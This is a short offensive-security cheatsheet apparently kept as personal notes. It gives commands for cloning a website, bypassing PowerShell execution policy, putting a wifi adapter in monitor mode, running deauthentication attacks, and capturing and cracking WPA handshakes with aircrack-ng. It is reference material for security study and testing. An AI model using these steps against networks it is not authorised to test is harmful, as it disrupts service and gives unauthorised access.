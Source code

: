 ```yaml
---
author: clausmalver
title: Offensive Security Cheatsheet
description: A note for quick glances anything related for offensive security.
date: 2024-09-22
categories: [Notes, Hacking]
tags: [linux, powershell, hacking, offensive]
---
```

## Clone a website

Clone a website including images, css, etc.
`wget -mk -nH [URL]`

## Bypass Powershell Execution Policy
`Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted`

## Reverse shells
[Reverse Shell Generator](https://www.revshells.com/)

## Wireless

Collection of notes regarding wireless attack or similar.

### Alfa Networks

Get USB wifi adapter into monitor mode

```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan up
```
Check if adapter is in monitor mode

`iwconfig wlan0`

### Wifi monitor using Kismet

`kismet -c wlan0 -p ~/log_directory -t output_file`

### Wifi monitor using airodump

`sudo airodump-ng wlan0`

### Deauth attacks

[wifi-deauth](https://github.com/flashnuke/wifi-deauth) - Python script for deauthing attacks

Install and run on system
```
git clone https://github.com/flashnuke/wifi-deauth.git
sudo pip3 install .
sudo wifi-deauth -i <wireless interface>
```

Remember to let it run for a bit so the app can collect clients it can deauth

### Stop interfering processes using airmon-ng

List possible interfering procceses
`sudo airmon-ng check`

Kill them
`sudo airmon-ng check kill`

### Crack WPA wifi

Set interface to monitor

`sudo ifconfig wlan0 down`
`sudo iwconfig wlan0 mode monitor`
`sudo ifconfig wlan0 up`

Kill all processes that uses the interface
`sudo airmon-ng check kill`

Note: `systemctl start NetworkManager` to start the Network services again

Start monitoring on the interface
`sudo airomon-ng [INTERFACE]`

Start capture on all channels
`airodump-ng [INTERFACE]`

Specify the BSSID and Channel, and start capture the handshake
`airodump-ng -c [CHANNEL] --bssid [MAC ADRESS] -w [OUTPUTFILE] wlan0`

Crack the WPA password
`aircrack-ng -w [WORDLIST] -b [BBSID] [PCAP FILE]`
